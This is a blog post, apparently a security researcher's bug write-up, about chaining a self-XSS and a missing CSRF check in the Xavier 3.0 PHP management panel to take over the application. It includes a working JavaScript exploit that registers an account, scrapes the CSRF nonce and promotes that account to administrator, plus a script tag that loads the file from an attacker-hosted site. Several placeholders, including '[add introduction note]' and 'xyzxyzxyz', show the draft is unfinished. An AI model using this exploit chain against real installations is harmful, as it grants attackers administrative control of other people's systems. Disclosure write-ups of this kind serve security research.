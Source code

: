 ```yaml
---
layout: post
title:	"Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover"
date:	2019-07-22 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> Xavier 3.0 PHP Management Panel CSRF to XSS to Application Takeover </title>
</head>


# i. Introduction
[add introduction note]

While hunting around on the application, I found a section where you can create users. After playing around, I noticed that when the registration would fail due to errors in the form such as a invalid username, too short password, etc, the username that you were trying to register would reflect on the error page.

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/fail.png)

I then tried adding an XSS payload to see if the parameter would be sanitized in anyway. To my surprise, the parameter was not sanitized and I was able to trigger an XSS. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/xss.png)

However, this would be considered to be a `Self-XSS` and have very little impact.


# ii. Chaining CSRF with XSS

Feeling a little defeated, I thought of some ways I could leverage this XSS into something bigger. While doing some more testing, I noticed that the endpoint which is responsible for creating the user did not have any CSRF protection. This gave me an idea to try to chain xyzxyzxyz

Here is an example of how the request looks like:

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf.png)

~~~
Payload Used: <script>alert(1)</script>
~~~

After converting the request to a CSRF proof of concept, I put it to test:


![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/csrf.gif)

It works, now we are able to remotely exploit a Self-XSS!

Do we stop here? No.


# iii. Application Takeover

Now that we are able to remotely exploit an XSS, what would be the impact? The obvious answer that comes to people's minds is stealing the session. However the application developers were one step ahead, and set the cookies to HTTPOnly. 

![Screenshot]({{ site.baseurl }}/images/posts/2017/xavier/cookies.png)

The way that the application flow works when creating a new user is:
1. Register a new user
2. Find the user in the user list, click their name to edit their profile
3. Click the "promote to admin" button

If you are thinking, if we have a CSRF, why go through all the trouble of having to execute Javascript. Well according to the application flow, with a CSRF we would only be able to create a registered user. A registered user has the same privileges, if I would've registered on the application myself. Furthermore the endpoint which is in charge of elevating the user's privileges has CSRF protection.

With that in mind, I set off to find a way to be able to takeover the application chaining these two bugs.

xyz (Simialr to my earlier post)

I then wrote simple Javascript, when called will create a new user and then promote the user. This is able to bypass SOP, as the request will be executing from the application, and furthermore is able to bypass the CSRF protection when promoting a user to the administrator as we can create an XMLHTTPRequest to parse the CSRF token and then include it with our request.

If you host the following Javascript on your site:
~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=SupermanSuperman&conf_pass=SupermanSuperman& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

Then use a payload such as:
~~~
<script src="https://your-site.com/xavier.js"></script>
~~~





As always, thank you for reading.

\- mqt

Sources:
~~~
test
~~~

